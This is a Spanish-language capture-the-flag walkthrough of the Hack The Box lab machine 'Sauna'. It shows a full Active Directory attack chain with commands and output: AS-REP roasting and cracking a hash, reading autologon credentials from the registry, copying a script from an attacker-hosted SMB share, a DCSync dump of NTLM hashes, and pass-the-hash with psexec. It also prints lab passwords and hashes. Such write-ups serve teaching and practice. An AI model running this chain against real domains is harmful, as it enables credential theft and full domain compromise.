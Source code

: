 # Sauna - 10.10.10.175
![Sauna](https://user-images.githubusercontent.com/96772264/212533203-22b97341-4eee-44d7-bf30-c57db475083c.png)

----------------------
# Part 1: Enumeración

Puertos abiertos: 80(http),88(kerberos),53(dns),135(rpc),139,389,445(smb),464,593,636,3269,3268,5985(winrm),9389
```console
└─$ crackmapexec smb 10.10.10.175
SAUNA [*] Windows 10.0 Build 17763 x64 (name:SAUNA) (domain:EGOTISTICAL-BANK.LOCAL) (signing:True) (SMBv1:False)
```

## Puerto 53 dns
```console
└─$ dig @10.10.10.175 egotistical-bank.local mx
sauna.egotistical-bank.local. hostmaster.egotistical-bank.local
```

## Puerto 135 rcp
```console
└─$ rpcclient -U "" -N 10.10.10.175 -c 'enumdomusers' 
result was NT_STATUS_ACCESS_DENIED
```
![Sauna1](https://user-images.githubusercontent.com/96772264/212533222-3870cb03-c0e5-490d-aa53-dba406dfa64d.PNG)

----------------------
# Part 2: Web

En la web apenas hay un formulario de contacto inutil. De single.html sacamos nombres -> Jenny Joy, James Doe, Jhonson y Watson.  
De contact us tambien -> Fergus Smith, Shaun Coins, Bowie Taylor, Sophie Driver, Hugo Bear, Steven Kerb.

```console
└─$ whatweb http://10.10.10.175
HTTPServer[Microsoft-IIS/10.0], IP[10.10.10.175], Microsoft-IIS[10.0], Script, Title[Egotistical Bank :: Home]

└─$ wfuzz -t 200 --hc=404 -w /usr/share/seclists/Discovery/Web-Content/IIS.fuzz.txt http://10.10.10.175/FUZZ
# Nada

└─$ wfuzz -t 200 --hc=404 -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt http://10.10.10.175/FUZZ
000000002:   403        29 L     92 W       1233 Ch     "images"                                             
000000536:   403        29 L     92 W       1233 Ch     "css"                                                
000002757:   403        29 L     92 W       1233 Ch     "fonts" 
```
```console
└─$ kerbrute userenum --dc 10.10.10.175 -d egotistical-bank.local /usr/share/seclists/Usernames/Names/names.txt
# Nada
```
Con los usuarios que habiamos conseguido hacemos un diccionario tal que cada nombre tenga mas de una manera de ser escrito:   
```Fergus Smith -> FergusSmith fsmith```

----------------------
# Part 3: Kerberos

```console
└─$ kerbrute userenum --dc 10.10.10.175 -d egotistical-bank.local users.txt
2023/01/14 12:02:52 >  [+] VALID USERNAME:	fsmith@egotistical-bank.local

└─$ impacket-GetNPUsers egotistical-bank.local/fsmith -no-pass
[*] Getting TGT for fsmith
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:246e70
```
Como no tenia el Dont-preauth seteado se podia dumpear los hashes.

```console
└─$ john hash -w=/usr/share/wordlists/rockyou.txt       
Thestrokes23     ($krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL)
```
----------------------
# Part 4: En el sistema, credenciales de Autologon
```console
└─$ crackmapexec smb 10.10.10.175 -u 'fsmith' -p 'Thestrokes23'
SMB         10.10.10.175    445    SAUNA            [+] EGOTISTICAL-BANK.LOCAL\fsmith:Thestrokes23

└─$ crackmapexec winrm 10.10.10.175 -u 'fsmith' -p 'Thestrokes23'
WINRM       10.10.10.175    5985   SAUNA            [+] EGOTISTICAL-BANK.LOCAL\fsmith:Thestrokes23 (Pwn3d!)
```
```console
└─$ impacket-smbserver carpeta $(pwd) -smb2support
*Evil-WinRM* PS C:\Users\FSmith\Documents> copy //10.10.14.7/carpeta/win_enum_xii.bat
*Evil-WinRM* PS C:\Users\FSmith\Documents> cmd /c win_enum_xii.bat
```

Encontramos credenciales autologon:
comando -> ```reg.exe query "HKLM\software\microsoft\windows nt\currentversion\winlogon" 2>nul | findstr "DefaultPassword DefaultUserName"```
```
"[Autologon]"
    DefaultUserName    REG_SZ    EGOTISTICALBANK\svc_loanmanager
    DefaultPassword    REG_SZ    Moneymakestheworldgoround!
```

```console
└─$ evil-winrm -i 10.10.10.175 -u 'svc_loanmanager' -p 'Moneymakestheworldgoround!'
# No funciona
└─$ evil-winrm -i 10.10.10.175 -u svc_loanmgr -p 'Moneymakestheworldgoround!'
# Asi si
```
----------------------
# Part 5: Escalada de privilegios: Bloodhound y DCSync

Para mirar una posible escalada de privilegios:
```console
└─$ bloodhound-python -u 'svc_loanmgr' -p 'Moneymakestheworldgoround!' -c All -ns 10.10.10.175 -d egotistical-bank.local -dc egotistical-bank.local --zip
# Nos crea 4 archivos json que subiremos al bloodhound
```
![Sauna2](https://user-images.githubusercontent.com/96772264/212533231-e2990401-a2e2-4bb5-a569-c6670b9ded6d.PNG)


En > OUTBOUND OBJECT CONTROL > First Degree Object Control Nos aparece DCSync, es un permiso sobre el dominio
que nos permite leer las contraseñas hasheadas de todo el mundo.

El ataque DCSync lo que hace es usar el Directory Replication Service Remote Protocol (MS-DRSR) para comportarse 
como un Domain Controller y pedirle información al resto de Domain Controllers (como por ejemplo credenciales)
Para realizar dicho ataque se requiere una cuenta con "Domain replication privileges"

```console
└─$ impacket-secretsdump egotistical.bank.local/svc_loanmgr@10.10.10.175
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:4a8899428cad97676ff802229e466e2c:::
EGOTISTICAL-BANK.LOCAL\HSmith:1103:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\FSmith:1105:aad3b435b51404eeaad3b435b51404ee:58a52d36c84fb7f5f1beab9a201db1dd:::
EGOTISTICAL-BANK.LOCAL\svc_loanmgr:1108:aad3b435b51404eeaad3b435b51404ee:9cb31797c39a9b170b04058ba2bba48c:::

└─$ impacket-psexec egotistical.bank.local/Administrator@10.10.10.175 cmd.exe -hashes :823452073d75b9d1cf70ebdf86c7f98e
C:\Windows\system32>
```


